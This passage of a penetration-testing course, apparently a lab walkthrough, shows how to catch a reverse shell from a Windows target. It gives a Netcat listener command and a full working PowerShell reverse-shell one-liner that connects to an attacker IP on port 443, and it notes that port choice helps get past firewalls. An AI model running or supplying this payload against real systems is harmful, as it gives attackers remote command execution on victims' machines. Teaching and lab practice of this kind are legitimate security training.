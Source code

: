 Let's work hands-on with this to understand these concepts better.

* * *

## Hands-on With A Simple Reverse Shell in Windows

With this walkthrough, we will be establishing a simple reverse shell using some PowerShell code on a Windows target. Let's start the target and begin.

We can start a Netcat listener on our attack box as the target spawns.

#### Server ( `attack box`)

```shell
sudo nc -lvnp 443
Listening on 0.0.0.0 443

```

This time around with our listener, we are binding it to a [common port](https://docs.redhat.com/en/documentation/red_hat_enterprise_linux/4/html/security_guide/ch-ports#ch-ports) ( `443`), this port usually is for `HTTPS` connections. We may want to use common ports like this because when we initiate the connection to our listener, we want to ensure it does not get blocked going outbound through the OS firewall and at the network level. It would be rare to see any security team blocking 443 outbound since many applications and organizations rely on HTTPS to get to various websites throughout the workday. That said, a firewall capable of deep packet inspection and Layer 7 visibility may be able to detect & stop a reverse shell going outbound on a common port because it's examining the contents of the network packets, not just the IP address and port. Detailed firewall evasion is outside of the scope of this module, so we will only briefly touch on detection & evasion techniques throughout the module, as well as in the dedicated section at the end.

Once the Windows target has spawned, let's connect using RDP.

Netcat can be used to initiate the reverse shell on the Windows side, but we must be mindful of what applications are present on the system already. Netcat is not native to Windows systems, so it may be unreliable to count on using it as our tool on the Windows side. We will see in a later section that to use Netcat in Windows, we must transfer a Netcat binary over to a target, which can be tricky when we don't have file upload capabilities from the start. That said, it's ideal to use whatever tools are native (living off the land) to the target we are trying to gain access to.

`What applications and shell languages are hosted on the target?`

This is an excellent question to ask any time we are trying to establish a reverse shell. Let's use command prompt & PowerShell to establish this simple reverse shell. We can use a standard PowerShell reverse shell one-liner to illustrate this point.

On the Windows target, open a command prompt and copy & paste this command:

#### Client (target)

```cmd-session
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

```
